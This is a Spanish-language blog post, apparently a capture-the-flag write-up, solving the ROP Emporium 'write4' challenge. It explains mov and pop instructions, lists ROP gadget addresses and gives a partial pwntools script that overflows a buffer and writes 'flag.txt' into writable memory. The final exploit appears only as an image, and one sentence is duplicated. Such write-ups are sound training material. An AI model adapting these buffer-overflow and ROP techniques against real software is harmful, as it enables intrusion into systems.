 ```yaml
---
title: Solución ropemporium write4 
date: 2024-01-11
categories: [rop, 64bits, bof]
tags: [64bits, bof, rop] #minúsculas-
---
```

En este post resolveré rompemporium write4, empezamos como siempre leyendo el enunciado de la web de ropemporium
https://ropemporium.com/challenge/write4.html 

Cord cut
On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

Differences
Things have been rearranged a little for this challenge; the printing logic has been moved into a separate library in an attempt to mitigate the alternate solution that is possible in the callme challenge. The stack smash also takes place in a function within that library, but don't worry this will have no effect on your ROP chain.

Important!
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.
Read/Write
Hopefully you've realised that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

Una vez leído el enunciado sacamos la siguiente información el string de /bin/cat flag.txt no esta presente en el binario, para poder solucionarlo nos dice lo siguiente que hay una función print_file() que nos permite pasar argumentos para poder ver la flag.
En este challenge nos pone también que no usaremos la funcionalidad integrada, ya que sería lo mismo que los anteriores, sino que usaremos gadgets para permitir escribir valor en la memoria como ``` mov [reg], reg ```
![](/assets/img/rop/write4.png)
Empezaremos mirando en qué zonas tenemos permiso de lectura y escritura / rw para eso usaremos radare.
Abrimos el binario con radare y ejecutamos iS para ver qué zonas podemos escribir.
![](/assets/img/rop/wr.png)

Vamos a buscar ahora un gadget que nos permita hacer lo que dice en el enunciado mov.
![](/assets/img/rop/gadgetmov.png)
Vamos primero a hablar un poco de assembly, porque es fundamental para entender que es lo que estamos buscando. Un mov en assembly es mover datos de un lugar de la memoria o entre registros, vamos a poner ejemplo para que quede claro la cosa.
```shell
mov eax, ebx     ; Copiar el valor en el registro ebx al registro eax
mov [ecx], edx   ; Almacenar el valor en el registro edx en la dirección de memoria apuntada por ecx
mov edx, 0x42    ; Asignar el valor inmediato 0x42 al registro edx
```
Vale, sabes que es mov ahora nos falta saber que es pop, pop se utiliza para extraer un valor de la pila(desapilar) y almacenarlo en el destino correspondiente, ejemplos:

```shell
pop eax         ; Desapilar un valor de la pila y almacenarlo en el registro eax
pop ebx         ; Desapilar otro valor de la pila y almacenarlo en el registro ebx
pop dword [esp] ; Desapilar un valor y almacenarlo en la dirección de memoria apuntada por esp
```
Ahora, sabiendo qué pop carga registros, vamos a buscar gadgets de pop de la siguiente forma.
![](/assets/img/rop/pop.png)

Ahora que hemos buscado gadgets nos vamos a quedar con los siguientes :
```ruby
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```
Vamos a ver como tenemos el script, por ahora.
```python
#/usr/bin/python3
from pwn import process, p64, log

shell = process("./write4")

offset = 40
junk = b"A" * offset

rw = p64(0x600df0)

pop_r14_r15 = p64(0x400690)
mov_r14_r15 = p64(0x400628)

payload  = b""
payload += junk
payload += pop_r14_r15 + rw + b"flag.txt"
payload += mov_r14_r15

shell.sendlineafter(b"> ", payload)

flag = shell.recvline_contains(b"ROPE").decode()
log.info(f"Flag: {flag}")
```
Por ahora tenemos el script, asi nos faltara la direcciona de la Por ahora tenemos el script, así nos faltará la direcciona de la función, que recibirá el parámetro, para saber las direcciones que nos faltan usaremos radare y Ropgadget, la dirección de pop rdi ret la obtenemos filtrando con pop como hicimos en unos pasos anteriores.

```ruby
0x0000000000400693 : pop rdi ; ret
```
En la siguiente imagen podéis ver como obtenemos la dirección de la función de print_file() que nos comenta en el enunciado.
![](/assets/img/rop/printfunct.png)

Por lo tanto, el exploit final quedaría así.

# Exploit
![](/assets/img/rop/explcall.png)